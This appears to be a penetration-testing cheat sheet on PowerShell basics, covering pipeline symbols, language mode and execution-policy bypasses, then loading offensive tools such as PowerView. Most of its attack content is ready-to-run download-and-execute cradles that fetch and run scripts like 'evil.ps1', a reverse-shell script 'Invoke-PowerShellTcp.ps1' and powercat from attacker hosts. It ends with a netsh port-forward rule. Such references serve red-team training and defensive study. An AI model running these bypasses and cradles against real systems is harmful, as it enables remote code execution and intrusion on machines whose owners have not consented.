 # PowerShell Basics

### Useful Symbols

```
%	Foreach-Object
?	Where-Object
$_      The variable for the current value in the pipe line

Examples
1,2,3 | %{ write-host $_ } will print 1,2,3
1,2,3 | ?{$_ -gt 1} will print 2,3
```

### Language Mode

```powershell
$ExecutionContext.SessionState.LanguageMode
```

### Execution Policy

Several ways to bypass

```batch
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass" 
```

### Load PowerShell script

```powershell
. c:\AD\Tools\PowerView.ps1
```

### Import a module

```powershell
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

### List available module commands

```powershell
Get-Command -Module <module_name>
Get-Help <module_name>
```

### Download files

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));
```

more options

{% code overflow="wrap" %}
```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```
{% endcode %}

PowerShell v3+

```powershell
iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)
iex (iwr 'http://192.168.230.1/evil.ps1')
```

Download and store

```powershell
(new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')
```

### Port Forward

```batch
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```
